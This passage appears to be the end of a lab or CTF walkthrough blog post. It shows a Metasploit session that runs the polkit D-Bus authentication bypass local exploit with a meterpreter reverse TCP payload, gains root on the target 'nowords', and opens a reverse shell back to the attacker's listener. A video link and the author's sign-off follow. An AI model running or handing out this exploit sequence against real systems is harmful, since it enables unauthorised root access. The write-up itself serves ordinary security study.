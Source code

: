 ### Let's exploit
```
msf6 > use linux/local/polkit_dbus_auth_bypass
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lport 4567
lport => 4567
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set iterations 400
iterations => 400
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set username
set username
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set username kerszi
username => kerszi
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set password szikers
password => szikers
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set session 2
session => 2
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > run

[*] Started reverse TCP handler on 172.16.1.10:4567
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking for exploitability via attempt
[+] The target is vulnerable. The polkit framework instance is vulnerable.
[*] Attempting to create user kerszi
[+] User kerszi created with UID 1001
[*] Attempting to set the password of the newly created user, kerszi, to: szikers
[+] Obtained code execution as root!
[*] Writing '/tmp/BXiNu' (207 bytes) ...
[*] Sending stage (984904 bytes) to 172.16.1.114
[*] Attempting to remove the user added:
[+] Deleted /tmp/BXiNu
[+] Successfully removed kerszi
[*] Meterpreter session 4 opened (172.16.1.10:4567 -> 172.16.1.114:52288) at 2021-09-29 03:47:29 +0200

meterpreter > getuid
Server username: root @ nowords (uid=0, gid=0, euid=0, egid=0)
```
Video about **Polkit D-Bus Authentication Bypass** you can see here:
{: .text-justify}
{% include video id="QZhz64yEd0g" provider="youtube" %}

## 10. The end
Sorry 4 my English. Mainly I used translator. If you like it write to kerszi@protonmail.com
{: .text-justify}